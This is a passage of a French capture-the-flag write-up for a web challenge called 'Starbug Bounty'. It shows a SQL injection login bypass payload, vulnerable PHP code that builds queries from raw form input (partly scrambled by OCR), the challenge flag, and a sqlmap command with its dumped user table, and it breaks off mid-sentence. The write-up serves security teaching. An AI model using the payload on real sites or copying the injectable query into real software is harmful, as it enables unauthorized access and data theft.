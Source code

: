 # Web 100 - Starbug Bounty

On détecte une simple injection SQL, il est donc possible de contourner l’authentification avec le
payload suivant.
> Username : ‘ or 1<2 --
> Password : peu importe


En injectant le payload dans le champ “username” de la requête 1 la condition devient vraie et le reste de
la requête est ignorée car elle est précédée d’un commentaire.

>1 - $stmt = $pdo->query("SELECT
password='".$_POST['password']."'");
*
FROM
users
WHERE
username='".$_POST['username']."'
and

> 2 - $stmt = $pdo->query("SELECT * FROM users WHERE username='' or 1<2 --' and password='".$_POST['password']."'");


Nous sommes connectés sur l’interface et nous pouvons donc utiliser le flag qui nous est donné :
**ese{Auth_SqL_1s_s0000_w34k}**




Il était aussi possible d’utiliser SQLMap pour extraire le contenu de la base de données et ensuite se
connecter avec les identifiants récupérés.
> python
sqlmap.py
-u
'http://127.0.0.1/ESE-Epreuves/ESE%20Web%2002%20-
%20Starbug%20Bounty%20-%20Max/Epreuve/' --forms --dbms sqlite --dump

En fournissant les bonnes options à SQLmap telles que le type de base de données, ici SQLITE, on peut
détecter une injection SQL de type UNION. Avec l’option “dump”, l’outil va automatiquement récupérer
toute la base de données.
Attention : SQLMap est un outil assez intrusif, à la fin du CTF nous avions plus de 10 GO de logs sur la
machines hébergeant les challenges.

>Database: SQLite_masterdb
>
>Table: users [3 entries]
>
>+----+----------+------------------------+
>
>| id | username | password|
>
>+----+----------+------------------------+
>
>| 1 | admin | Auth_SqL_1s_s0000_w34k |
>
>+----+----------+------------------------+
>
SQLMap nous ressort la base de données et on peut utiliser les iden